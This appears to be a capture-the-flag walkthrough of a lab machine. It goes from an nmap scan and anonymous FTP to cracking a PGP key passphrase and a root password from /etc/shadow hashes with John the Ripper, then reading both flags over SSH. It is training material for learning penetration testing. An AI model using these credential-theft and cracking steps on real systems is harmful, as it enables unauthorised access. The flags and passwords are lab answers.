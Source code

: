 A. Enumeration 

A.1 Nmap

To understand and gain information about the target we start the enumeration phase by running an nmap scan using below command

```
┌[parrot]─[18:03-01/07]─[/home/glack/Desktop/shellgen]
└╼glack$nmap -sV -sT -A 10.10.10.19
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 18:03 IST
Nmap scan report for 10.10.10.19
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.24.189
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Jul 01 00:03 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  107 0        0               0 Jul 01 00:03 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Jul 01 00:03 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Jul 01 00:03 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8af9483e11a1aafcb78671d02af624e7 (RSA)
|   256 735dde9a886e647ae187ec65ae1193e3 (ECDSA)
|_  256 56f99f24f152fc16b77ba3e24f17b4ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.06 seconds
```

As we can see port 21 and 22 are open.

The entire root directory is mounted on the ftp with anonymous login allowed

A.2 FTP

Since we can see a lot of information is available in ftp, we check it by running an ftp client using

```
┌[parrot]─[18:04-01/07]─[/home/glack/Desktop/THM]
└╼glack$ftp 10.10.10.19
```

We login with username as  'Anonymous' and password as blank

```
Name (10.10.10.19:glack): anonymous
Password:

```

And we can see and download the ftp hosted files

```
ftp> ls
```

We check the list of "commands" we can run in ftp using 

```
ftp> ?
```

Here we can easily view the contents of
/home/melodia/user.txt. 

But we can get that later, for now we will only focus on gaining information and gaining  credentials on the target system


In the file we can see a non-standard directory "notread" , let have a look into it

```
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
```

We download both the files using 

```
get backup.pgp

get private.asc
```


Here from the looks of it we can see that there is an encrypted backup file and a private key.

Maybe we can use this key to decrypt the backup file

B. Gaining Access

B.1 GPG decrypt

Now I used used this (https://superuser.com/questions/46461/decrypt-pgp-file-using-asc-key) resource to understand how to decrypt a ".pgp" file using a private key

But when we try to  import the private key using
```
┌[parrot]─[18:36-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$gpg --import private.asc
```

We get prompted for the passphrase of the private key, i tried some randoms passphrases and failed so i decided to used the "gpg2john"  and "john" tool to crack the passphrase 


```

┌[parrot]─[18:34-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$gpg2john private.asc > forjohn.txt
```


And

```
┌[parrot]─[18:35-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

And we crack the passphrase in no time

```
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)
```

Now we try to decrypt the gpg file again using

```
┌[parrot]─[18:40-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$gpg --import private.asc
```

```
┌[parrot]─[19:00-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$gpg --passphrase xbox360 --decrypt backup.pgp
```

Here we can see that the backup.pgp file contained the contents of "/etc/shadow" file 

We can export it to a file named "shadow"

```
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
.
.
.
.
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```
 

We can also download the /etc/passwd files using ftp, since it is readable

```
ftp> cd /etc

ftp> get passwd
```

Now we can use the "unshadow" tool and try to crack the user's password using john.

You can view more about unshadow here(https://linuxcommandlibrary.com/man/unshadow)

B.2 Unshadow

The syntax to use unshadow is 

```
┌[parrot]─[19:10-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$unshadow passwd shadow > 2forjohn.txt
```

Here "passwd" is the "/etc/passwd" file and
"shadow" is the "/etc/shadow" file

Now we run the output file through john using

```
┌[parrot]─[19:12-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$john 2forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

And we get a hit for the root password

```
Press 'q' or Ctrl-C to abort, almost any other key for status
hikari           (root)
```

We can now use the credentials to ssh into the machine and get the flags

```
┌[parrot]─[19:14-01/07]─[/home/glack/Desktop/THM/anonforce]
└╼glack$ssh root@10.10.10.19
root@10.10.10.19's password: 

```


```
root@ubuntu:~# cat /home/melodias/user.txt
606083fd33beb1284fc51f411a706af8
```

```
root@ubuntu:~# cat root.txt
f706456440c7af4187810c31c6cebdce
```

![[Pasted image 20230701194759.png]]

